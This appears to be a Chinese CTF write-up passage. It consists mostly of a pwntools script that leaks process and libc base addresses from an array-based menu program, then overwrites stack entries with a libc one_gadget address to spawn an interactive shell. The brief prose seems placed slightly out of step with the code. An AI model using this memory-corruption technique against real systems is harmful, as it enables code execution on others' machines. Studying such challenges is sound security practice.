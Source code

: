 首先,向栈内填充适量的数据,将栈大小覆盖为一个较大的数.

```python
r.recvuntil(b"Enter the value to push:")
r.sendline(b"60")
r.recvuntil("Enter your choice:")
r.sendline(b"4")

libc_recv=r.recvuntil(b" \n")
add_list=str(libc_recv)
proc_add=((int(add_list.split(" ")[-25])& 0xFFFFFFFF)+(int(add_list.split(" ")[-24])*0x100000000))
proc_base=proc_add-0x3CF8
libc_add=((int(add_list.split(" ")[21])& 0xFFFFFFFF)+(int(add_list.split(" ")[22])*0x100000000)) #这里用的和群里的wp是同一个栈地址
libc_base=libc_add-0x29EF0#但这里的偏移不同
```

然后通过print功能泄露一些地址.

```python
one_add=0xebd43
payload=one_add+libc_base
pay1=str(payload%0x100000000)
pay2=str(payload//0x100000000)
r.recvuntil("Enter your choice:")
r.sendline(b"1")
r.recvuntil(b"Enter the index to edit (0-based): ")
r.sendline(b"18")
r.recvuntil(b"Enter the new value: ")
r.sendline(pay1)
r.recvuntil(b"Element updated successfully.\n")
r.recvuntil("Enter your choice:")
r.sendline(b"1")
r.recvuntil(b"Enter the index to edit (0-based): ")
r.sendline(b"19")
r.recvuntil(b"Enter the new value: ")
r.sendline(pay2)
r.recvuntil(b"Element updated successfully.\n")
payload=proc_base+0x4900
pay1=str(payload%0x100000000)
pay2=str(payload//0x100000000)
r.recvuntil("Enter your choice:")
r.sendline(b"1")
r.recvuntil(b"Enter the index to edit (0-based): ")
r.sendline(b"16")
r.recvuntil(b"Enter the new value: ")
r.sendline(pay1)
r.recvuntil(b"Element updated successfully.\n")
r.recvuntil("Enter your choice:")
r.sendline(b"1")
r.recvuntil(b"Enter the index to edit (0-based): ")
r.sendline(b"17")
r.recvuntil(b"Enter the new value: ")
r.sendline(pay2)
r.recvuntil(b"Element updated successfully.\n")

r.interactive()
print(add_list)
```
